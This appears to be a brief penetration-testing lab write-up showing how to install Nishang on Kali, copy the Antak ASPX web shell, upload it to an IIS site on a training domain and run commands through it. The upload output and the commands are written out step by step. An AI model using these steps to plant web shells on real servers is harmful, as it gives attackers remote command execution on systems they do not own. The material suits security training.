

## Antak Webshell

1. install nishang on kali.

```
sudo apt install nishang
```

2. copy the antak webshell.

```
cp /usr/share/nishang/Antak-WebShell/antak.aspx .
```

modify line 14 for additional security.

3. upload `antak.aspx`.

output:
```
Uploaded Configuration File Name: C:\inetpub\wwwroot\status.inlanefreight.local\files\antak.aspx
File Size: 10428
File Type: application/octet-stream
```

4. go to `status.inlanefreight.local/files/antak.aspx`.

<p align="center">
  
</p>

5. query `whoami`.

```
PS> whoami
```